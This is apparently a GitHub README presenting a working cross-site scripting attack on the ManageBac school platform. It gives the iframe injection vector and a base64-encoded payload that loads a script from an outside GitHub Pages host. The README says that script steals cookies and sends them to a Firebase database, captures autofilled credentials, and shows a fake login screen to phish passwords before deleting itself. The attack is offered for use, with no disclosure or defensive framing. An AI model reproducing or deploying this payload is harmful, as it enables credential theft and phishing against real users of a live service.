 # Managebac XSS attack
Managebac is a very secure systen, however it has a vulnerability allowing XSS attacks using iframe src, ```<iframe src="javascript:{codehere}"><iframe>```, this enables an attacker to execute code in discussion forums or similiar to steal user credentials

# Payload used
The payload I used for this repo is:
```
<iframe id="discussion-payload-iframe" src="javascript:eval(atob(`{base64encodedhere}`));"></iframe> 
```
with the executed payload (which is in base64 for various reasons) being 
```
let a = document.createElement('script'); a.type = "module"; a.src = 'https://existencing.github.io/xss/mb.js'; top.document.head.appendChild(a); top.document.getElementById("discussion-payload-iframe").remove();
```
which in base 64 is
```
bGV0IGEgPSBkb2N1bWVudC5jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTsgYS50eXBlID0gIm1vZHVsZSI7IGEuc3JjID0gJ2h0dHBzOi8vZXhpc3RlbmNpbmcuZ2l0aHViLmlvL3hzcy9tYi5qcyc7IHRvcC5kb2N1bWVudC5oZWFkLmFwcGVuZENoaWxkKGEpOyB0b3AuZG9jdW1lbnQuZ2V0RWxlbWVudEJ5SWQoImRpc2N1c3Npb24tcGF5bG9hZC1pZnJhbWUiKS5yZW1vdmUoKTs=
```
# Functioning of code
1. Using XSS payload, inject a script into top frame of document (i.e target website)
2. Script grabs cookies of website and sends them to a Firebase DB
3. Script creates another frame which imitates login screen, if autofill credentials is enabled, then credentials are stolen and script self deletes
4. If credentials not stolen already, then a fake login screen is injected that tricks user to enter credentials, script self deletes